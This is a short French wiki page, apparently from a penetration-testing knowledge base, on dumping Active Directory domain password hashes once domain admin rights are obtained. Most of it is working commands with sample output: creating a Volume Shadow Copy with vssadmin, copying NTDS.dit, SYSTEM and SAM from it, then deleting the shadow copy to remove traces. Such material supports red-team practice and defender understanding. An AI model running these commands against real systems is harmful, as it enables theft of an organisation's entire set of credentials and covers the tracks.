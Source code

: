 ```yaml
---
title: Dump des hashs du domaine
permalink: /Dump_des_hashs_du_domaine/
---
```


# Dump des hashs du domaine

Il existe de nombreuses méthodes pour récupérer les hashs d'un domaine une fois qu'on a les priviléges d'administration sur le domaine.

Volume Shadow Copy
------------------

Il est possible d'utiliser l'utilitaire VSS pour faire une copie du fichier NTDS.dit et SYSTEM qui sont nécessaires pour récupérer les hashs.

``` text
# Créer le Volume Shadow Copy
vssadmin create shadow /for=C:
vssadmin 1.1 – Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001 Microsoft Corp.

Successfully created shadow copy for ‘c:\’
Shadow Copy ID: {e8eb7931-5056-4f7d-a5d7-05c30da3e1b3}
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

# Faire des copies des fichiers nécessaires. Il faut remplacer [X] par le bon entier
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .

# Supprimer le Volume Shadow Copy
vssadmin delete shadows /for=C: /shadow=e8eb7931-5056-4f7d-a5d7-05c30da3e1b3
```

**Note**: *copy* dans un invite powershell ne fonctionne pas correctement. Mieux vaut tout faire depuis un invite de commande traditionnel.


